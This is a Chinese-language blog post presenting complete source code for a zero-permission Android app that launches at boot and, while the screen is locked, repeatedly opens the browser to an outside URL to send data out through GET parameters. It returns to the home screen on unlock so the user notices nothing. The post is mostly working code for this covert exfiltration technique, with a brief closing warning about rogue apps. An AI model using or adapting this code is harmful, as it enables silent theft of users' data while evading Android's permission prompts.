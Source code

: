 上次写过一篇文章  抛砖引玉 之 谁动了我的隐私(android用户隐私窥探)  描述如何读取系统log缓冲区但还存在权限提示问题。
这次来个稍微好点的，真正的0权限上传数据。
同上次讲的一样，虽然大部分用户在安装app时对权限警告视而不见，但相信以后用户会对权限问题越来越重视的。
这次咱们先真正的来一次0权限上传热热身。
#### 一、原理
首先利用的还是那个开机启动bug。
然后，在手机锁屏时上传数据。
如何上传数据呢，为了避免权限咱们得瞒天过海。
我们知道，在Intent转向的时候，可以转到标记为ACTION_VIEW的activity，而浏览器都有这个标记，可以传一个uri过去。
soga,说到这里，，明白了吧。就是使用http的GET传参，虽然只能传明文，但已经够了，更何况一次能传输的字节也还是很客观的。
至于传什么，每个想实现这种功能的人都有其目的吧。
#### 二、实现
首先是清单文件，不需要声明任何权限，只需要写一个广播接收者和一个服务即可。
```  
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="org.igeek.hack"
    android:versionCode="1"
    android:versionName="1.0" >
    <uses-sdk android:minSdkVersion="8" />
    <application
        android:icon="@drawable/icon"
        android:label="@string/app_name" >
        <receiver android:name=".reciver.HackReceiver" >
            <intent-filter android:priority="1000" >
                <action android:name="android.intent.action.BOOT_COMPLETED" />
            </intent-filter>
        </receiver>
        <service android:name=".service.HackerService" />
    </application>
</manifest>
```
然后就是广播接收者的实现，很简单，单纯的开启一个服务。
```  
import org.igeek.hack.service.HackerService;
import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
public class HackReceiver extends BroadcastReceiver {
	@Override
	public void onReceive(Context context, Intent intent) {
		Intent it = new Intent(context, HackerService.class);
		context.startService(it);
	}
}
```
最后，就是关键部分，服务的实现。
```  
import java.util.Random;
import android.app.KeyguardManager;
import android.app.Service;
import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.content.IntentFilter;
import android.net.Uri;
import android.os.Handler;
import android.os.IBinder;
import android.util.Log;
public class HackerService extends Service {
	private ScreenOnBroadcastReciver soReciver;
	private ScreenOFFBroadcastReciver sfReciver;
	private Handler handler;
	final static String LOG_TAG = "hack";
	KeyguardManager keyguardManager;
	Intent it;
	// GET提交地址
	final String HACK_URL = "http://www.igeek.org/hack?info=";
	private Runnable r = new Runnable() {
		@Override
		public void run() {
			// 如果是锁屏状态
			if (keyguardManager.inKeyguardRestrictedInputMode()) {
				// GET上传，内容随你
				String hackInfo = "hack!!!!your information!!!!!!!&r=
						+ new Random().nextFloat();
				it.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
				Uri uri = Uri.parse(HACK_URL + hackInfo);
				it.setData(uri);
				startActivity(it);
				Log.i(LOG_TAG, "提交数据->" + HACK_URL + hackInfo);
				// 每隔5秒，执行一次上传
				handler.postDelayed(r, 5000);
			}
		}
	};
	@Override
	public void onStart(Intent intent, int startId) {
		super.onStart(intent, startId);
		keyguardManager = (KeyguardManager) getSystemService(Context.KEYGUARD_SERVICE);
		it = new Intent(Intent.ACTION_VIEW);
		handler = new Handler();
		Log.i(LOG_TAG, "开机完成，注册广播接收者");
		soReciver = new ScreenOnBroadcastReciver();
		sfReciver = new ScreenOFFBroadcastReciver();
		IntentFilter onIntentFilter = new IntentFilter(
				"android.intent.action.SCREEN_ON");
		registerReceiver(soReciver, onIntentFilter);
		IntentFilter offIntentFilter = new IntentFilter(
				"android.intent.action.SCREEN_OFF");
		registerReceiver(sfReciver, offIntentFilter);
	}
	@Override
	public IBinder onBind(Intent intent) {
		return null;
	}
	 /**
	  * 解锁广播接收者
	  */
	class ScreenOnBroadcastReciver extends BroadcastReceiver {
		@Override
		public void onReceive(Context context, Intent intent) {
			Log.i(LOG_TAG, "屏幕解开");
			handler.removeCallbacks(r);
			intent.setAction(Intent.ACTION_MAIN);
			intent.addCategory(Intent.CATEGORY_HOME);
			intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
			Log.i(LOG_TAG, "转向HOME");
			startActivity(intent);
		}
	}
	 /**
	  * 锁屏广播接收者
	  */
	class ScreenOFFBroadcastReciver extends BroadcastReceiver {
		@Override
		public void onReceive(final Context context, Intent intent) {
			Log.i(LOG_TAG, "屏幕锁住");
			// 500ms后开始执行上传数据
			handler.postDelayed(r, 500);
		}
	}
}
```
#### 三、效果
哈，运行下试试，关机。。。开机。。。锁屏。。解锁。。没发现什么反应啊。。。再看看程序管理。。Hack程序也没有任何权限提示啊。
![img](P)  
真的这样吗？来看看log。
![img](P)  
you see? 流量就这么悄悄的耗了。
本工程包地址：hack_0p_upload.zip
#### 结束语
这么流氓的伎俩，相信谁都不想碰到，google market也混乱的一塌糊涂，android app混乱的不成样子，大家还是擦亮双眼，安全，一定要注意的。